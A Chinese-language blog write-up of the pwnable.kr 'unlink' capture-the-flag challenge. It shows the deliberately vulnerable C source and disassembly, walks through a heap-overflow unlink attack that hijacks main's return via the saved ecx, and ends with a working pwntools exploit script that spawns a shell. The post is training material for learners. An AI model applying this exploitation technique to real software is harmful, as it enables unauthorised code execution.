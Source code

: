 ```yaml
---
layout:     post
title:      "pwnable.kr之unlink"
subtitle:   " 堆还是栈？ "
date:       2018-07-21 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - pwnable.kr
 
---
```


>题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

>连接  ssh unlink@pwnable.kr -p2222 (pw: guest)

## 0x01 程序分析

它直接给出了源代码unlink.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);
         
        // exploit this unlink!
        unlink(B);
        return 0;
}

```


可以看出这段代码模仿了堆的一些实现,模拟的 Unlink 堆溢出漏洞。最后打印出A变量栈中地址和heap指向分配的mem地址,让你get shell.

main函数汇编代码如下：

```nasm
.text:0804852F ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:0804852F                 public main
.text:0804852F main            proc near               ; DATA XREF: _start+17↑o
.text:0804852F
.text:0804852F var_14          = dword ptr -14h
.text:0804852F var_10          = dword ptr -10h
.text:0804852F var_C           = dword ptr -0Ch
.text:0804852F var_4           = dword ptr -4
.text:0804852F argc            = dword ptr  8
.text:0804852F argv            = dword ptr  0Ch
.text:0804852F envp            = dword ptr  10h
.text:0804852F
.text:0804852F ; __unwind {
.text:0804852F                 lea     ecx, [esp+4]
.text:08048533                 and     esp, 0FFFFFFF0h
.text:08048536                 push    dword ptr [ecx-4]
.text:08048539                 push    ebp
.text:0804853A                 mov     ebp, esp
.text:0804853C                 push    ecx
.text:0804853D                 sub     esp, 14h
.text:08048540                 sub     esp, 0Ch
.text:08048543                 push    400h            ; size
.text:08048548                 call    _malloc
.text:0804854D                 add     esp, 10h
.text:08048550                 sub     esp, 0Ch
.text:08048553                 push    10h             ; size
.text:08048555                 call    _malloc
.text:0804855A                 add     esp, 10h
.text:0804855D                 mov     [ebp+var_14], eax
.text:08048560                 sub     esp, 0Ch
.text:08048563                 push    10h             ; size
.text:08048565                 call    _malloc
.text:0804856A                 add     esp, 10h
.text:0804856D                 mov     [ebp+var_C], eax
.text:08048570                 sub     esp, 0Ch
.text:08048573                 push    10h             ; size
.text:08048575                 call    _malloc
.text:0804857A                 add     esp, 10h
.text:0804857D                 mov     [ebp+var_10], eax
.text:08048580                 mov     eax, [ebp+var_14]
.text:08048583                 mov     edx, [ebp+var_C]
.text:08048586                 mov     [eax], edx
.text:08048588                 mov     edx, [ebp+var_14]
.text:0804858B                 mov     eax, [ebp+var_C]
.text:0804858E                 mov     [eax+4], edx
.text:08048591                 mov     eax, [ebp+var_C]
.text:08048594                 mov     edx, [ebp+var_10]
.text:08048597                 mov     [eax], edx
.text:08048599                 mov     eax, [ebp+var_10]
.text:0804859C                 mov     edx, [ebp+var_C]
.text:0804859F                 mov     [eax+4], edx
.text:080485A2                 sub     esp, 8
.text:080485A5                 lea     eax, [ebp+var_14]
.text:080485A8                 push    eax
.text:080485A9                 push    offset format   ; "here is stack address leak: %p\n"
.text:080485AE                 call    _printf
.text:080485B3                 add     esp, 10h
.text:080485B6                 mov     eax, [ebp+var_14]
.text:080485B9                 sub     esp, 8
.text:080485BC                 push    eax
.text:080485BD                 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
.text:080485C2                 call    _printf
.text:080485C7                 add     esp, 10h
.text:080485CA                 sub     esp, 0Ch
.text:080485CD                 push    offset s        ; "now that you have leaks, get shell!"
.text:080485D2                 call    _puts
.text:080485D7                 add     esp, 10h
.text:080485DA                 mov     eax, [ebp+var_14]
.text:080485DD                 add     eax, 8
.text:080485E0                 sub     esp, 0Ch
.text:080485E3                 push    eax             ; s
.text:080485E4                 call    _gets
.text:080485E9                 add     esp, 10h
.text:080485EC                 sub     esp, 0Ch
.text:080485EF                 push    [ebp+var_C]
.text:080485F2                 call    unlink
.text:080485F7                 add     esp, 10h
.text:080485FA                 mov     eax, 0
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
.text:08048606 ; } // starts at 804852F
.text:08048606 main            endp

```

## 0x01 漏洞分析之折腾

明显程序在 gets(A->buf) 处有堆溢出，一开始我走偏了，狠狠折腾了一番。我的思路是他泄露了&A即栈地址，根据栈地址能算出ret时esp指向的栈顶地址，这个偏移是不会随着系统的aslr变化的。所以我找出了ret 时esp相对于&A的偏移 0x28 。知道了 ret 时的栈顶有什么用呢？ 只要用gets伪造好数据，调用unlink函数的时候就可以替换地址，我要做的就是将 B堆空间的fd替换成ret-4地址，bk替换成shell函数地址，payload如下：

	payload="a"*8+p32(0)+p32(0x19)+p32(ret-4)+p32(shell_addr)

这样unlink后

	*(ret-4+4)=*(ret)=栈顶内容=shell_addr 
	*(shell_addr)=ret-4

这样当程序执行到main函数ret的时候，就能成功返回到我的shell地址，

我本以为这样就能成功拿shell，结果我忽略了一个问题。那就是*(shell_addr)=ret-4 这个地方已经破坏了shell函数的代码段  /(ㄒoㄒ)/  失败告终。


## 0x02 再次分析

后来发现main函数结尾那里，

```nasm
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
```

会将**[ecx-4]**写入**esp**，只要我们可控制 **ecx**内容就能控制返回地址。再看上面有**mov  ecx,[ebp-4]** 这样一段代码，只有我们可以控制**[ebp-4]**的内容就能控制**ecx**内容。

经调试发现**ebp-4=&A + 0x10** 代码有两次取地址内容，根据泄露的A的heap地址 ， heap地址下面（高处）即是gets()输入的内存空间，所以我们又构造 **heap+12=shell_addr+4**

这样我们就将（shell的地址 + 4）写入（ebp-4的内存中）也就是将 A+12 的值写入 &A + 0x10的内存中，返回时便控制了eip。

## 0x03 完整exp

```python
from pwn import *
context(os='linux', log_level='debug')
p=process("./unlink")
shell_addr=0x80484eb
stack_addr=p.recvline()
stack_addr=stack_addr.split(": 0x")[1][:-1]
stack_addr=int(stack_addr,16)

heap_addr=p.recvline()
heap_addr=heap_addr.split(": 0x")[1][:-1]
heap_addr=int(heap_addr,16)

p.recvuntil("get shell!\n")
payload=p32(shell_addr)+"a"*12+p32(heap_addr+12)+p32(stack_addr+16)
p.sendline(payload)
p.interactive()
```

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/pwnable.kr%E4%B9%8Bunlink)